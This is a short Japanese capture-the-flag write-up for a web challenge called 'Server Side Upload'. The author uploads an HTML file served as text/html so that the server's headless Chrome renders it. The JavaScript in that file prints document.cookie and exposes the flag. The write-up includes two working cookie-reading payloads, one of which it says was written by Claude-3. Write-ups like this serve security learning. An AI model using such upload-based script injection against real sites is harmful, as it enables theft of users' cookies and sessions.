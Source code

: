 ```yaml
---
title: "Server Side Upload"
points: 20
tags: ["web"]
---
```


ファイルアップロードのためのフォームと、サーバー側でレンダリングした結果を返してくれる機能があることが分かる。

サーバー側のCookieにflagが保管されているので、サーバー側のChromeで任意のJavaScriptを実行させることが目標となる。

Claude-3にCookieを表示するためのコードを書いてもらい、これをアップロード、表示するためのURLをサーバー側にレンダリングさせる。

```html
<html>
<body>
  <h1>Cookie Content</h1>
  <p id="cookieContent"></p>

  <script>
    function getCookieContent() {
      const cookies = document.cookie.split('; ');
      const cookieObj = {};

      for (let i = 0; i < cookies.length; i++) {
        const [name, value] = cookies[i].split('=');
        cookieObj[name] = value;
      }

      return cookieObj;
    }

    function displayCookieContent() {
      const cookieContent = getCookieContent();
      const cookieContentElement = document.getElementById('cookieContent');

      let content = '';
      for (const name in cookieContent) {
        content += `${name}: ${cookieContent[name]}<br>`;
      }

      cookieContentElement.innerHTML = content;
    }

    displayCookieContent()
  </script>
</body>
</html>
```

Content-Typeをtext/htmlでアップロードすると、表示画面でもtext/htmlが帰ってくることがわかったので、アップロード先のURLをサーバーに投げてflagゲット。

改めてみると、Claude-3に書いてもらったものは無駄が多いので書き直してみた。後学のために置いておく。

```html
<html>
  <p id="cookie">
  <script>
    document.getElementById('cookie').innerHTML = document.cookie
  </script>
</html>
```